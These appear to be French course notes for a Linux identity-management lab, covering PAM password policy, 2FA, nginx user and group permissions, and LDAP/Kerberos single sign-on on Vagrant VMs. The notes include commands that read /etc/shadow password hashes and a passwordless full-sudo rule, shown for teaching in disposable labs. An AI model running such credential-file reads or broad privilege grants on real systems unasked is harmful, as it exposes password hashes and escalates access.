config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User1" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/weak_pass --gecos "Weak_pass" weak_pass
adduser --quiet --disabled-password --shell /bin/bash --home /home/weak_pass_user --gecos "Weak_pass_user" weak_pass_user
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_reasonable_password --gecos "User_reasonable_password" user_reasonable_password
chpasswd < users.txt
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y libpam-cracklib libpam-google-authenticator
echo "auth required pam_google_authenticator.so nullok" | sudo tee -a /etc/pam.d/common-auth
SHELL
end
Voici les différentes commandes exécutées dans l'image précédente :
sudo usermod -L -e 1 user_reasonable_passwordEn résumé, cette commande verouille le compte et force son expiration immédiate.
su user_reasonable_passwordsudo usermod -U -e "" user_reasonable_passwordEn résumé, cette commande déverouille le compte et supprime la date d'expiration.
su user_reasonable_passwordCentralisation authentification via Pluggable Authentication Module (PAM) :
login, passwd, sudo, etc. : répétition du code ?
Pluggable Authentication Module - centralisation logique :
-
auth : identification des utilisateurs.
-
account : limitation du nombre d'utilisateurs simultanés, etc.
-
sessions : actions à faire au début et à la fin d'une session.
-
password : complexité risque, type de hashage, etc.
Gestion de la complexité des mots de passe via PAM :
https://www.baeldung.com/linux/password-complexity

Voici les différentes commandes exécutées dans l'image précédente :
cat /etc/pam.d/common-passwordsu user_reasonable_passwordpasswdGestion de la complexité du hashage des mots de passe via PAM :
Ici, on est dans la VM nommée "util-bionic".

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/pam.d/common-password | grep -v "#"En résumé, cette commande affiche uniquement les règles PAM actives liées aux mots de passe.
sudo tail -n 1 /etc/shadow | fold -w 80 -sIci, on est dans la VM nommée "util-jammy".

Voici les différentes commandes exécutées dans l'image précédente :
sudo cat /etc/pam.d/common-password | grep -v "#"sudo tail -n 2 /etc/shadow | fold -w 80 -sLa différence principale (en dehors de la version d'Ubuntu) concerne l'algorithme de hachage des mots de passe utilisé par PAM et stocké dans /etc/shadow. Dans Ubuntu 18.04, le hash commence par $6$ (SHA-512) alors que, dans Ubuntu 22.04, le hash commence par $y$ (yescrypt).
Implémentation 2FA via PAM :

Il faut ajouter l'utilisateur user_2fa avec la commande suivante :
sudo adduser user_2faVoici les différentes commandes exécutées dans l'image précédente :
google-authenticatorEn résumé, cette commande initialise l'authentification à deux facteurs pour un utilisateur.
tail -n 1 /etc/pam.d/common-authsu user_2faExercice 1 : Gestion des utilisateurs :
Contexte :
-
Contexte d'entreprise :
-
Sites Web d'organisation hostés sur un serveur commun.
-
Sites "statiques", plusieurs utilisateurs autorisés à modifier le contenu de leur(s) site(s).
-
Nécessité de pouvoir mettre à jour le contenu & la configuration.
-
-
Actifs à protéger :
-
Contenu très important pour réputation.
-
Réelle menace de piratage du contenu, ou de le rendre indisponible.
-
Configuration :
-
Box Vagrant préconfigurée avec un serveur web.
-
Fichiers de configuration pour le serveur web dans /etc/nginx/conf.d :
-
client1.conf : premier site sur port 8081
-
client2.conf : premier site sur port 8082
-
-
Sites dans /var/www/site-client1 et /var/www/site-client2 :
-
/var/www/site-client1/index.html
-
/var/www/site-client2/index.html
-
En résumé, ici, on est dans la VM nommée "exercice1" dont voici le Vagrantfile :
# coding: utf-8
Vagrant.configure("2") do |config|
config.vm.box = "ubuntu/jammy64"
config.vm.provision "file", source: "./users.txt", destination: "/home/vagrant/users.txt"
config.vm.provision "file", source: "./client1.conf", destination: "/home/vagrant/client1.conf"
config.vm.provision "file", source: "./client2.conf", destination: "/home/vagrant/client2.conf"
config.vm.provision "file", source: "./site-client1", destination: "/home/vagrant/site-client1"
config.vm.provision "file", source: "./site-client2", destination: "/home/vagrant/site-client2"
config.vm.provision "shell", inline: <<-SHELL
#!/bin/bash
set -euo pipefail
# Installation de nginx (serveur web)
DEBIAN_FRONTEND=noninteractive apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y nginx
# Copie des sites web et des fichiers de configuration de nginx
mv /home/vagrant/site-client1 /var/www
mv /home/vagrant/site-client2 /var/www
mv /home/vagrant/client1.conf /etc/nginx/conf.d
mv /home/vagrant/client2.conf /etc/nginx/conf.d
# Création des utilisateurs
chmod go-rw ./users.txt
adduser --quiet --disabled-password --shell /bin/bash --home /home/user1 --gecos "User1" user1
adduser --quiet --disabled-password --shell /bin/bash --home /home/user2 --gecos "User2" user2
adduser --quiet --disabled-password --shell /bin/bash --home /home/user_adm --gecos "User_adm" user_adm
chpasswd < users.txt
# Création des groupes et association des utilisateurs aux groupes
groupadd client1
adduser user1 client1
adduser vagrant client1
groupadd client2
adduser user2 client2
adduser vagrant client2
chown -R vagrant:client1 /var/www/site-client1
chmod 2775 /var/www/site-client1
chown -R vagrant:client2 /var/www/site-client2
chmod 2775 /var/www/site-client2
chown root:root /etc/nginx/conf.d/client1.conf
chown root:root /etc/nginx/conf.d/client2.conf
nginx -t
nginx -s reload
SHELL
endTâches :
Gestion des accès :
-
Vérifier qu'un quidam peut bien avoir accès aux deux sites (tuyau : curl).
curl http://localhost:8081curl http://localost:8082 -
Identifier les utilisateurs (user*) et les groupes (client*) (tuyau : /etc/passwd, /etc/group, /etc/shadow).
-
/etc/passwd → utilisateurs.
sudo cat /etc/passwd -
/etc/group → groupes.
sudo cat /etc/group -
/etc/shadow → authentification.
sudo cat /etc/shadow
-
-
Tester le changement du contenu de site-client1 - sans utiliser sudo (!) (tuyau : un utilisateur dans le bon "groupe").
-
Vérifier le groupe propriétaire du répertoire.
ls -la /var/www/site-client1 -
Ajouter l'utilisateur au groupe :
sudo usermod -aG client1 userXEn résumé, cette commande ajoute un groupe à l'utilisateur sans supprimer les autres. Sans le -a et juste avec le -G, vous effacez tous les autres groupes secondaires.
-
-
Vérifier qu'un utilisateur non-autorisé ne peut pas changer le contenu de site-client1 (tuyau : voir "groupes").
-
Vérifier les permissions :
ls -ld /var/www/site-client1 -
Vérifierles groupes :
groups userX
-
-
Changer le port d'écoute de site-client2 en 8083 (tuyau : bien voir qui peut faire cette modification et à quelle condition - redémarrer le serveur avec sudo nginx -t suivi de sudo nginx -s reload).
sudo nano /etc/nginx/conf.d/client2.confsudo nginx -tEn résumé, cette commande teste la configuration NGINX. C'est une bonne pratique avant chaque reload.
sudo nginx -s reloadEn résumé, cette commande recharge la configuration sans arrêter le serveur.
Voici la différence avec restart :
Commande Effet nginx -s reload Recharge proprement. systemctl restart nginx Stop + start (mini interruption possible).
Gestion du cycle de vie des identités & des "credentials" :
-
Faire un "audit" des utilisateurs (qui a accès à quoi) - tous les utilisateurs listés sont-ils nécessaires ? (tuyau : ne pas oublier les utilisateurs privilégiés).
awk -F: '$3 >= 1000 {print $1}' /etc/passwdL'audit des utilisateurs vise à :
-
Identifier tous les comptes présents sur le système.
-
Déterminer leurs niveaux de privilèges.
-
Vérifier la légitimité et la nécessité de chaque compte.
-
Réduire la surface d'attaque en appliquant le principe du moindre privilège.
Les comptes sont listés dans le fichier /etc/passwd. On distingue deux catégories : comptes techniques (UID < 1000) et comptes utilisateurs (UID >= 1000).
L'audit doit impérativement inclure la vérification du droits d'administration.
L'utilisateur www-data est un compte technique utilisé par les serveurs web (Apache, Nginx). Il permet l'exécution des services web avec des privilèges restreints.
L'utilisateur ubuntu est un compte par défaut des images cloud Ubuntu et souvent membre du groupe sudo. Il sert généralement de compte administrateur initial.
sudo su -En résumé, cette commande ouvre une session complète en tant que root. Elle permet d'accéder aux fichiers protégés, d'inspecter la configuration système complète et de vérifier les privilèges effectifs. Elle doit être utilisée avec précaution dans un contexte de sécurité.
Le répertoire /etc/sudoers.d/ peut contenir des règles supplémentaires accordant des privilèges spécifiques à certains utilisateurs.
Sur les machines issues d'images cloud (AWS, Azure, etc.), on trouve souvent le fichier /etc/sudoers.d/90-cloud-init-users. Ce fichier est généré par cloud-init et peut contenur une règle telle que :
ubuntu ALL=(ALL) NOPASSWD:ALLEn résumé, cela signique que l'utilisateur ubuntu peut exécuter toutes les commandes en tant que n'importe quel utilisateur sans devoir saisir de mot de passe. Ceci constitue un privilège administratif complet.
-
-
Lors d'un contrôle périodique, vous constatez que user1 ne doit plus être autorisé à modifier son site - désactiver son compte (tuyau : voir sudo usermod) - Vérifier qu'il n'a effectivement plus accès.
sudo usermod -L user1 -
Un nouvel utilisateur user1b doit pouvoir modifier site-client1. Faire en sorte qu'il puisse le faire (tuyau : ne pas oublier le groupe).
sudo adduser user1bsudo usermod -aG client1 user1bSous Ubuntu, deux commandes permettent de créer des comptes utilisateurs : useradd et adduser. Bien qu'elles poursuivent le même objectif, leur nature et leur fonctionnement diffèrent.
Critère useradd adduser Niveau Bas niveau Haut niveau Interaction Non interactive Interactive Création du home directory Optionnelle Automatique Portabilité Toutes distributions Debian/Ubuntu Usage recommandé Scripts Administration courante -
Vous décidez que vous voulez implémenter la règle d'entreprise qui dit que les mots de passe doivent être changés régulièrement. Modifier la configuration de user2 pour que son mot de passe expire après 7 jours et forcez la date de dernière mise à jour du mot de pa1sse à un jour en septembre (tuyau : sudo chage). Vérifier qu'il doit effectivement donner un nouveau mot de passe.
sudo chage -M 7 -d 2023-01-01 user2 -
Comment vous-y prenez vous pour organiser et exécuter la tâche de vérification des identités et des "credentials" (tuyau : penser plan-do-check-act).
Bonus : création d'un troisième site web :
-
Créer éventuellement un nouveau groupe et un nouvel utilisateur.
sudo addgroup client3sudo adduser user3sudo usermod -aG client3 user3 -
Créer un nouveau fichier de configuration dans /etc/nginx/conf.d (tuyau : utiliser un port non utilisé - qui peut faire cette opération et à quelle condition ?).
cd /etc/nginx/conf.dsudo cp client1.conf client3.confOu encore avec la commande suivante :
sudo cat client1.conf | sudo tee client3.confN'oubliez pas de nano ce nouveau fichier pour modifier le port en 8084 et vers le bon dossier en /var/www/site-client3.
-
Créer un nouveau directory dans /var/www/ (tuyau : peser à changer le groupe et changer les droits en 2775 - qui peut faire cette opération et à quelle condition ?).
sudo cd /var/wwwsudo mkdir site-client3sudo chown -R vagrant:client3 site-client3En résumé, cette commande change récursivement le propriétaire en vagrant et le groupe en client3 pour le dossier site-client3 et tout son contenu.
sudo chmod 2775 site-client3En résumé, cette commande donne les droits rwxrwxr-x au dossier site-client3 et active le setgid pour que les nouveaux fichiers héritent du groupe client3.
-
Créer un nouveau fichier index.html dans le directory nouvellement créé.
sudo cd site-client3sudo nano index.html<!DOCTYPE HTML> <html> <head> <title>Site-client3</title> </head> <body> <p>Bienvenue sur le site-client3</p> </body> </html> -
Vérifier que tout fonctionne bien (tuyau : penser à redémarrer le serveur).
sudo systemctl restart nginxcurl localhost:8084 -
Donner des droits "sudo" à user_adm et vérifier qu'il peut effectuer des tâches administratives relatives aux sites.
sudo usermod -aG sudo user_admsudo nano /etc/nginx/conf.d/client3Modifiez ce fichier pour le mettre en 8090.
sudo systemctl restart nginxcurl localhost:8090
Centralisation des identités & de l'authentification - Single Sign On : Environnement de travail :
Boîtes à démarrer dans l'ordre :
-
Boîte network-identity-server (sso-server.hs.be) :
-
Serveur d'identité.
-
Serveur d'authentification (tiers de confiance).
-
Initialisée avec un utilisateur.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.117' config.vm.provider :virtualbox config.vm.provision "file", source: "./install-krb5.txt", destination: "/home/vagrant/install-krb5.txt" config.vm.provision "file", source: "./install-slapd.txt", destination: "/home/vagrant/install-slapd.txt" config.vm.provision "file", source: "./ldap.conf", destination: "/home/vagrant/ldap.conf" config.vm.provision "file", source: "./ldap-pass.txt", destination: "/home/vagrant/ldap-pass.txt" config.vm.provision "file", source: "./realm-pass.txt", destination: "/home/vagrant/realm-pass.txt" config.vm.provision "file", source: "./ubuntu-pass.txt", destination: "/home/vagrant/ubuntu-pass.txt" config.vm.provision "file", source: "./ubuntuadmin-pass.txt", destination: "/home/vagrant/ubuntuadmin-pass.txt" config.vm.provision "file", source: "./ldifs", destination: "/home/vagrant/ldifs" config.vm.provision "file", source: "./john-pass.txt", destination: "/home/vagrant/john-pass.txt" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Idée générale: # https://documentation.ubuntu.com/server/how-to/openldap/install-openldap/ # https://documentation.ubuntu.com/server/how-to/kerberos/install-a-kerberos-server/ # https://documentation.ubuntu.com/server/how-to/sssd/with-ldap-and-kerberos # Spécifiquement pour l'accès ssh: https://www.howtoforge.com/how-to-setup-kerberos-server-and-client-on-ubuntu-1804-lts/ # Mise à jour du fuseau horaire timedatectl set-timezone Europe/Brussels # Changement hostname - Kerberos utilise les noms, pas les adresses! hostnamectl set-hostname sso-server.hs.be echo -e "172.28.128.117 sso-server.hs.be\n172.28.128.118 sso-client.hs.be\n172.28.128.119 sso-service.hs.be" >> /etc/hosts # Protection des configurations contenant les mots de passe et des mots de passe des utilisateurs chmod 0600 ./install-krb5.txt chmod 0600 ./install-slapd.txt chmod 0600 ./ldap-pass.txt chmod 0600 ./realm-pass.txt chmod 0600 ./ubuntu-pass.txt chmod 0600 ./ubuntuadmin-pass.txt chmod 0600 ./john-pass.txt cat ./ubuntu-pass.txt ./ubuntu-pass.txt >> ubuntu-pass-create.txt cat ./ubuntuadmin-pass.txt ./ubuntuadmin-pass.txt >> ubuntuadmin-pass-create.txt cat ./john-pass.txt ./john-pass.txt >> john-pass-create.txt chmod 0600 ./ubuntu-pass-create.txt chmod 0600 ./ubuntuadmin-pass-create.txt chmod 0600 ./john-pass-create.txt # Mettre à jour les packages DEBIAN_FRONTEND=noninteractive apt-get update # Charger debconf-utils et donner les paramètres par défaut utilisés par slapd et krb5-user (en fait krb5-config) # voir https://serverfault.com/questions/407317/passing-default-answers-to-apt-get-package-install-questions DEBIAN_FRONTEND=noninteractive apt-get -qq -y install debconf-utils debconf-set-selections < install-krb5.txt debconf-set-selections < install-slapd.txt # Charger et installer les packages ldap DEBIAN_FRONTEND=noninteractive apt-get -qq -y install slapd ldap-utils # Définition des défauts pour LDAP cat ldap.conf >> /etc/ldap/ldap.conf # Charger et installer les packages kerberos DEBIAN_FRONTEND=noninteractive apt-get -qq -y install krb5-kdc krb5-admin-server # Création nouveau realm krb5_newrealm < realm-pass.txt # Creation des premiers principaux # https://web.mit.edu/Kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-admin/Adding-or-Modifying-Principals.html kadmin.local -q "addprinc ubuntu" < ubuntu-pass-create.txt kadmin.local -q "addprinc ubuntu/admin" < ubuntuadmin-pass-create.txt # Donner des droits aux admin du realm echo "*/admin@HS.BE *" >> /etc/krb5kdc/kadm5.acl systemctl restart krb5-admin-server.service # Création d'un utilisateur dans LDAP et dans Kerberos # Attention le mot de passe ne doit pas contenir de newline # https://serverfault.com/questions/140728/ldapsearch-password-file-format # Il y a moyen d'unifier la configuration de LDAP et de Kerberos ldapadd -x -D cn=admin,dc=hs,dc=be -f ldifs/add_meta.ldif -y ldap-pass.txt ldapadd -x -D cn=admin,dc=hs,dc=be -f ldifs/add_john.ldif -y ldap-pass.txt kadmin.local -q "addprinc john" < john-pass-create.txt SHELL end -
-
Boîte network-identity-service (sso-service.hs.be) :
-
Se réfère à sso-server.hs.be pour l'obtention des informations d'identité et d'authentification.
-
Est enregistré en tant que machine auprès du serveur d'identité / d'authentification.
-
Expose un service SSH configuré pour utiliser les services réseau d'authentification et d'authentification.
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.119' config.vm.provider :virtualbox config.vm.provision "file", source: "./install.txt", destination: "/home/vagrant/install.txt" config.vm.provision "file", source: "./sssd.conf", destination: "/home/vagrant/sssd.conf" config.vm.provision "file", source: "./ubuntuadmin-pass.txt", destination: "/home/vagrant/ubuntuadmin-pass.txt" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Idée générale: https://documentation.ubuntu.com/server/how-to/sssd/with-ldap-and-kerberos # Spécifiquement pour l'accès ssh: https://www.howtoforge.com/how-to-setup-kerberos-server-and-client-on-ubuntu-1804-lts/ # Mise à jour du fuseau horaire timedatectl set-timezone Europe/Brussels # Changement hostname - Kerberos utilise les noms, pas les adresses! hostnamectl set-hostname sso-service.hs.be echo -e "172.28.128.117 sso-server.hs.be\n172.28.128.118 sso-client.hs.be\n172.28.128.119 sso-service.hs.be" >> /etc/hosts # Protection des fichiers avec mots de passe et de configuration chmod 0600 ./ubuntuadmin-pass.txt chmod 0600 ./install.txt # Mettre à jour les packages DEBIAN_FRONTEND=noninteractive apt-get update # Charger debconf-utils et donner les paramètres par défaut utilisés par krb5-user (en fait krb5-config) # voir https://serverfault.com/questions/407317/passing-default-answers-to-apt-get-package-install-questions DEBIAN_FRONTEND=noninteractive apt-get -qq -y install debconf-utils debconf-set-selections < install.txt # Charger et installer les packages DEBIAN_FRONTEND=noninteractive apt-get -qq -y install sssd-ldap sssd-krb5 ldap-utils krb5-user # Configurer sssd pour le REALM et les serveurs LDAP et Kerberos mv ./sssd.conf /etc/sssd/sssd.conf chmod 0600 /etc/sssd/sssd.conf chown root:root /etc/sssd/sssd.conf systemctl start sssd.service pam-auth-update --enable mkhomedir # Enregister l'host dans Kerberos - nécessaire pour éviter kdc spoofing (et aussi y accéder via ssh?) # voir https://documentation.ubuntu.com/server/how-to/sssd/with-ldap-and-kerberos/#sssd-and-kdc-spoofing kadmin -p ubuntu/admin -q "addprinc -randkey host/sso-service.hs.be" < ubuntuadmin-pass.txt kadmin -p ubuntu/admin -q "ktadd -k /etc/krb5.keytab host/sso-service.hs.be" < ubuntuadmin-pass.txt # Configurer sshd pour l'authentification via Kerberos echo "GSSAPIAuthentication yes" | tee /etc/ssh/sshd_config.d/50-allow-GSSAPI-authentication.conf echo "GSSAPICleanupCredentials yes" | tee -a /etc/ssh/sshd_config.d/50-allow-GSSAPI-authentication.conf systemctl restart sshd SHELL end -
-
Boîte network-identity-client (sso-client.hs.be) :
-
Se réfère à sso-server.hs.be pour l'obtention des informations d'identité et d'authentification.
-
Contacte sso-service.hs.be en SSH sans devoir se réauthentifier (single sign on).
Voici le Vagrantfile de cette VM :
# coding: utf-8 Vagrant.configure("2") do |config| config.vm.box = "ubuntu/jammy64" config.vm.network "private_network", ip: '172.28.128.118' config.vm.provider :virtualbox config.vm.provision "file", source: "./install.txt", destination: "/home/vagrant/install.txt" config.vm.provision "file", source: "./sssd.conf", destination: "/home/vagrant/sssd.conf" config.vm.provision "file", source: "./ubuntuadmin-pass.txt", destination: "/home/vagrant/ubuntuadmin-pass.txt" config.vm.provision "shell", inline: <<-SHELL #!/bin/bash set -euo pipefail # Idée générale: https://documentation.ubuntu.com/server/how-to/sssd/with-ldap-and-kerberos # Spécifiquement pour l'accès ssh: https://www.howtoforge.com/how-to-setup-kerberos-server-and-client-on-ubuntu-1804-lts/ # Mise à jour du fuseau horaire timedatectl set-timezone Europe/Brussels # Changement hostname - Kerberos utilise les noms, pas les adresses! hostnamectl set-hostname sso-client.hs.be echo -e "172.28.128.117 sso-server.hs.be\n172.28.128.118 sso-client.hs.be\n172.28.128.119 sso-service.hs.be" >> /etc/hosts # Protection des fichiers avec mots de passe et de configuration chmod 0600 ./ubuntuadmin-pass.txt chmod 0600 ./install.txt # Mettre à jour les packages DEBIAN_FRONTEND=noninteractive apt-get update # Charger debconf-utils et donner les paramètres par défaut utilisés par krb5-user (en fait krb5-config) # voir https://serverfault.com/questions/407317/passing-default-answers-to-apt-get-package-install-questions DEBIAN_FRONTEND=noninteractive apt-get -qq -y install debconf-utils debconf-set-selections < install.txt # Charger et installer les packages DEBIAN_FRONTEND=noninteractive apt-get -qq -y install sssd-ldap sssd-krb5 ldap-utils krb5-user # Configurer sssd pour le REALM et les serveurs LDAP et Kerberos mv ./sssd.conf /etc/sssd/sssd.conf chmod 0600 /etc/sssd/sssd.conf chown root:root /etc/sssd/sssd.conf systemctl start sssd.service pam-auth-update --enable mkhomedir # Enregister l'host dans Kerberos - nécessaire pour éviter kdc spoofing (et aussi y accéder via ssh?) # voir https://documentation.ubuntu.com/server/how-to/sssd/with-ldap-and-kerberos/#sssd-and-kdc-spoofing kadmin -p ubuntu/admin -q "addprinc -randkey host/sso-client.hs.be" < ubuntuadmin-pass.txt kadmin -p ubuntu/admin -q "ktadd -k /etc/krb5.keytab host/sso-client.hs.be" < ubuntuadmin-pass.txt # Configurer sshd pour l'authentification via Kerberos echo "GSSAPIAuthentication yes" | tee /etc/ssh/sshd_config.d/50-allow-GSSAPI-authentication.conf echo "GSSAPICleanupCredentials yes" | tee -a /etc/ssh/sshd_config.d/50-allow-GSSAPI-authentication.conf systemctl restart sshd SHELL end -
Notions :
Notion & Motivation :
-
Notion :
-
Mêmes utilisateurs/'credentials' sur toutes les machines du réseau.
-
(Single Sign On - SSO) Ne s'identifier/s'authentifier qu'une seule fois pour une période de temps.
-
-
Motivations Administrateur / Responsable Sécurité :
-
Gestion intégrée des utilisateurs et des droits, notamment utilisateurs avec accès privilégié (sudo).
-
Politique mots de passe etc. unifiée...
-
... mais point de faiblesse unique si compte compromis.
-
(SSO) Centraliser au niveau du réseau l'authentification - pas de compromission des mots de passe si un service est compromis.
-
-
Motivation Utilisateurs :
-
Exigence de mots de passe forts plus supportable.
-
(SSO) Facilité d'utilisation.
-
Composants :
-
Interface client :
-
sswitch & Pluggable Authentication Module (PAM - Encore lui !) - où trouver l'info & configurer l'authentification.
-
System Security Services Daemon (SSSD) - tâche de fond.
-
-
Gestion centralisée de l'identité :
-
Le plus souvent, Lightweight Directory Access Protocol (LDAP).
-
-
Gestion centralisée de l'authentification :
-
Directement sur le serveur d'identité LDAP - pas de SSO.
-
Avec Kerberos - nécessaire pour SSO.
-
Pourquoi Kerberos ? Le problème de l'authentification LDAP seule :
Sans Kerberos, le service voit le mot de passe.
-
L'utilisateur envoie son mot de passe au service.
-
Le service le transmet au serveur LDAP pour vérification.
-
Service compromis = mot de passe capturé et réutilisable partout.
-
L'utilisateur doit retaper son mot de passe pour chaque service sur chaque machine.
Avec Kerberos : le service ne voit jamais le mot de passe.
-
Le mot de passe n'est utilisé qu'une seule fois, entre l'utilisateur et le tiers de confiance.
-
Les services reçoivent des tickets - jamais le mot de passe.
-
Servoce compromis = rien de réutilisable (tickets à durée à durée limitée, liés à un service).
Serveur d'identité (et éventuellement d'authentification) :
LDAP :
-
Un protocole pour accéder à un annuaire via TCP/IP.
-
Annuaire peut être général, mais en pratique bien adapté pour données d'identité et d'authentification.
-
Accès idéalement sécurisé via TLS (certainement si Authentification).
Ici, on est dans la VM nommée "ni-server".

Voici les différentes commandes exécutées dans l'image précédente :
ldapsearch -x -LLL -b dc=hs,dc=be '(uid=john)'ldapsearch -x -LLL -b dc=hs,dc=be '(cn=john)'En résumé, ldapsearch est un outil pour interroger un annuaire LDAP. -x utilise l'authentification simple, -LLL produit une sortie épurée, -b dc=hs,dc=be définit la base DN, et '(uid=john)' ou '(cn=john)' est le filtre de recherche.
Authentification réseau - Single Sign On :
Kerberos : authentification via tiers de confiance et "session keys" :
Principes de fonctionnement :
Tiers de confiance :
-
Authentification préalable des utilisateurs (et des services !) auprès d'un tiers de confiance.
Échanges utilisateur - serveur - version simplifiée(!) :
-
L'utilisateur reçoit du tiers de confiance :
-
un secret ("session key") encrypté avec le mot de passe de l'utilisateur.
-
un "ticket" qui contient le secret, encrypté avec le mot de passe du service.
-
-
L'utilisateur décrypte le secret.
-
L'utilisateur encrypte une requête contenant un "timestamp" encrypté avec le secret et l'envoie au service, en même temps que le "ticket".
-
Le service décrypte le ticket, avec son propre mot de passe, et utilise le secret pour décrypter la demande de l'utilisateur.
-
Seul un utilisateur valide peut produire une requête valide - il doit avoir une connaissance du secret commun entre lui et le service.
-
... à aucun moment le mot de passe n'est échangé en clair.
-
... à aucun moment le service n'a connaissance du vrai mot de passe de l'utilisateur !
-
Le secret et ticket n'ont qu'une durée de vie limitée.
Single Sign On :
-
Le secret initial peut servir comme "credential" entre l'utilisateur et un service spécial et centralisé qui crée des "sous-secrets et sous-tickets".
-
Ces "sous-secrets et sous-tickets" sont utilisés par l'utilisateur pour accéder à d'autres services, sans redonner son mot de passe - single sign on !
-
Le secret initial a de toute façon une durée de vie limitée.
Très bonne explication : https://wpollock.com/AUnixSec/MoronsGuideToKerberos.htm
Single Sign On - vue utilisateur :
L'expériece au quotidien :
-
Je tape mon mot de passe une seule fois au login.
-
J'obtiens un TGT (Tocket-Granting Ticket) - mon "passe" pour la session.
-
J'accède aux services réseau (SSH, web, fichiers...) sans retaper mon mot de passe.
-
Après expiration du TGT (typiquement 10h). Il faut se réauthentifier.
Single Sign On - vue sécurité :
Les garanties :
-
Le mot de passe ne circule jamais sur le réseau (contrairement à l'authentification LDAP directe).
-
Les tickets sont à durée limitée - un ticket volé a une fenêtre d'exploitation réduite.
-
Authentification mutuelle - le service prouve son identité au client (protection MITM).
-
Un service compromis ne capture rien de réutilisable.
Kerberos - Phase 1 : Authentification initiale (AS Exchange) :
john@sso-client → AS sur sso-server :
-
john envoie à l'AS :
Je suis john
. -
L'AS répond avec :
-
une clé de session TGS, chiffrée avec le mot de passe de john.
-
un TGT (Ticket-Granting Ticket), chiffré avec la clé du TGS (john ne peut pas le le lire - c'est un "message scellé" pour le TGS).
-
-
john déchiffre la clé de session avec son mot de passe.
-
john stocke le TGT + la clé de session dans un cache local (un "portefeuille de tickets").
Point clé : Le mot de passe a servi une seule fois. Tout le reste repose sur le TGT et la clé de session.
Kerberos - Phase 2 : Accès au service (TGS + AP Exchange) :
john@sso-client → TGS sur sso-server → sshd sur sso-service :
-
john envoie au TGS : TGT + authenticator * +
je veux host/sso-service.hs.be
. -
Le TGS déchiffre le TGT avec sa propre clé, vérifie l'authenticator.
-
Le TGS répond avec :
-
une clé de session service, chiffrée avec la clé de session TGS.
-
un service ticket, chiffré avec la clé de host/sso-service.hs.be.
-
-
john envoie au sshd : service ticket + authenticator.
-
Le sshd déchiffre le service ticket avec son keytab, vérifie l'authenticator.
-
Le sshd répond → authentification mutuelle.
* authenticator = timestamp chiffré avec la clé de session - prouver que john la possède maintenant (protection contre le rejeu).
Kerberos - Parallélisme structurel des deux phases :
| Phase 1 (AS) | Phase 2 (TGS) | |
|---|---|---|
| John prouve son identité avec | son mot de passe | TGT + authenticator * |
| Le serveur chiffre le ticket avec | clé du TGS (krbtgt) | clé de host/sso-service |
| John reçoit | TGT + clé de session | service ticket + clé de session |
| Ce ticket sera présenté à | le TGS | sshd sur sso-service |
* authenticator = timestamp chiffré avec la clé de session, preuve de possession "en temps réel".
Le TGS est "juste un service".
La seule différence : la première fois, john tape son mot de passe. Les fois suivantes, le TGT le remplace. C'est ça, le Single Sign-On.
Authentification mutuelle - le service prouve son identité :
Le problème est :
-
Un attaquant pourrait se faire passer pour sso-service.hs.be (attaque MITM).
-
Le client enverrait son service ticket à l'imposteur.
La solution est le keytab :
-
Le service ticket est chiffré avec la clé de host/sso-service.hs.be.
-
Seul le vrai sso-service possède cette clé (dans son keytab : /etc/krb5.keytab).
-
Le service déchiffre le ticket, extrait la clé de session, construit une réponse.
-
Le client vérifie cette réponse → le service a prouvé son identité.
-
Un imposteur sans keytab ne peut pas produire cette réponse.
Le keytab - "mot de passe" de la machine :
Création (sur sso-server, lors du provisioning) :

Voici les différentes commandes exécutées dans l'image précédente :
kadmin.local -q "addprinc -randkey host/sso-service.hs.be"En résumé, cette commande crée un principal Kerberos pour le service avec une clé secrète générée aléatoirement dans la base du KDC.
kadmin.local -q "ktadd -k /etc/krb5.keytab host/sso-service.hs.be"En résumé, cette commande exporte la clé du principal dans le fichier keytab afin que le service puisse déchiffrer les tickets Kerberos.
Explication :
-
addprinc -randkey : crée un principal avec un mot de passe aléatoire.
-
ktadd : exporte cette clé dans un fichier keytab.
-
Secret partagé entre la base du KDC (côté sso-server) et /etc/krb5.keytab (côté sso-service).
-
Analogie: le keytab est au service ce que le mot de passe est à l'utilisateur.
Sans keytab, le sshd ne peut pas déchiffrer le service ticket → authentification GSSAPI impossible.
Configuration des clients :
Configuration nsswitch & PAM du client (voir Vagrant pour sources) :
-
Configuration nsswitch - où trouver l'information :
Ici, on est dans la VM nommée "ni-client".

cat /etc/nsswitch.confEn résumé, cette commande affiche le fichier nsswitch.conf, qui définit comment le système résout les utilisateurs et groupes (fichiers locaux, LDAP, etc.).
-
Configuration de Pluggable Authentication Module - gestion authentification :

Voici les différentes commandes exécutées dans l'image précédente :
cd /etc/pam.dEn résumé, cette commande accède aux fichiers de configuration PAM.
grep -r sss .En résumé, cette commande recherche l'utilisation de SSSD pour l'authentification.
Configuration sssd du client :
-
Pour mémoire :
-
Résolution de nom de domaine (ici route statique vers ss-server.hs.be).
-
Couche Transport Layer Security (TLS), avec certificat pour le serveur d'identité - pour la sécurité (pas implémenté ici).
-
-
sssd.conf (prérequis : résolution DNS vers sso-server.hs.be; TLS recommandé mais non implémenté ici) :

sudo cat /etc/sssd/sssd.confEn résumé, cette commande affiche la configuration de SSSD, qui gère l'authentification centralisée.
Séparation identité / authentification : id_provider = ldap → identité (qui est john ?) auth_provider = krb5 → authentification (est-ce bien john ?)
Gestion centralisée de l'identité :
Client utilisant serveur d'identité :

Voici les commandes exécutées dans l'image précédente :
sudo loginEn résumé, cette commande ouvre une session.
idEn résumé, cette commande montre l'UID/GID/groupes
